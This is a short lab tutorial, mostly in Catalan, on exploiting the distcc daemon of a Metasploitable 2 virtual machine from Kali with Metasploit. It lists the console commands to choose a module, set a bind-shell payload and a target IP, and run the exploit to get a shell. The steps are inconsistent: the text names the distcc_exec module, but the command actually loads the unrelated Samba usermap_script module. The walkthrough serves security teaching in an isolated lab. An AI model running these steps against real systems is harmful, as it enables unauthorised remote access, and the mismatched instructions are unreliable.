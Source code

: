 En aesta pràctica prepararem la màquina `metasploitable 2` per a poder realitzar algunes activitats amb Metasploit amb posterioritat.

1 Inicia les màquines `Kali Linux` i `Metasploitable 2`. Ha d'haver-hi comunicació per xarxa local entre ambdues. 
!!!note "Anotació"
    Tots els passos a realitzar es faran des de la màquina Kali. S'intentarà accedir a la màquina Metasploitable mitjançant una vulnerabilitat del dimoni distcc. 
    distcc és un compilador del llenguatge C i C++ pensat en l'aprofitament de màquines distribuïdes en la mateixa xarxa local per a optimitzar els temps de compilació utilitzant el temps de CPU d'altres màquines que estan ocioses.

Kali: Búsqueda del módulo a utilizar con metasploit:

````
search distcc
Selecciona el texto "exploit/unix/misc/distcc_exec"
````

![search](img/search.png)

Kali: Selecciona'l:
````
use exploit/multi/samba/usermap_script
````
![use](img/use.png)

Kali: Selecciona el payload a utilitzar:

````
show payloads
set payload cmd/unix/bind_ruby
````
![use](img/payload.png)

Instructions:

````
show options
set RHOSTS 10.0.2.5
(Modifica 10.0.2.5 per la IP de la màquina a atacar)
````

![show](img/show.png)

`````
Kali: Executeu l'exploit:

exploit
A partir d'ara hem obtingut una terminal en la màquina atacada.
`````
![exploit](img/exploit.png)